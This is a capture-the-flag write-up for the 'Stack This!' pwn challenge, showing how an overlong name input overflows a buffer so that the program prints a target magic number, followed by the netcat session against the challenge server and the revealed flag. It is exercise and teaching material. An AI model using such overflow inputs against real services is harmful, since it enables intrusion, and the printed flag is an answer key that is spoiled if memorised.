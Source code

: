 # Stack This! (100)
#### pwn - [Virginia TSA Technosphere CTF](../main.md)

## Challenge description:
> Quite ironically, the CTFd engineers are hard at work on a new utility for [stack smashing](https://wiki.c2.com/?StackSmashing) and seem to have put a stack vulnerability into the very same program.
> 
> Download file: [stackthis](./../assets/stackthis)

## Solution 
We are given a binary and information to connect to a server with netcat.

After marking it as executable with `chmod +x stackthis`, running the binary asks for a name and returns a magic number. It also says entering a text with a "magic number" of 1734437990 will return the flag.

Using trial-and-error with the local binary, I found the string returning 1734437990. This was over five characters as to overflow the buffer allowing for stack-smashing.

```
AAAAAAAA = 1094795585
BBBBBBBBB = 1111638594
ZZZZZZZZZZ = 1515870810
aaaaaaaaaaa = 1633771873
zzzzzzzzzzzz = 2054847098
fffffffffffff = 1717986918
gggggggff = 1717987175
flag{flagflag} = 1734437990
```

Submitting this to the netcat server yielded the flag.

```
$ nc 0.cloud.chals.io 15343
*** CTFd StackSmasker Version .0001alpha

*** Since this is an alpha product, we are asking customers
    to keep all input limited to 5 characters or less

*** Rumor has it that getting it to print 1734437990 might produce a
    flag, though.

What is your name? flag{flagflag}
magicNumber: 1734437990
******************
```

<details> 
    <summary>Flag</summary>
flag{funandprofit}
</details>